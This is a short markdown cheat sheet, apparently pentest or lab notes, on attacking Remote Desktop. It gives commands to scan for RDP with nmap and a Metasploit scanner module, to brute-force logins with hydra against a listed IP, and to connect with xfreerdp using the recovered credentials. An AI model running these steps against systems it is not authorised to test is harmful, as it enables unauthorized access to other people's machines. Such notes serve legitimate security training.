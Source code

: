 # Exploiting RDP 

1. Scan the target for open RDP port
```
nmap -sV -p- <TARGET>
```

2. If there is no default ``Port 3389`` then scan other suspicious ports to check whether they run RDP service

```
use auxiliary/scanner/rdp/rdp_scanner
set RHOST <TARGET>
set RPORT <RDP PORT>
run
```

3. Brute-force RDP Login credentials

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/metasploit/unix_passwords.txt 10.5.16.84 rdp -s 3333
```

4. Using the obtained credentials make a RDP connection to the target.

```
xfreerdp /u:administartor /p:password /v:10.5.16.84:3333
```
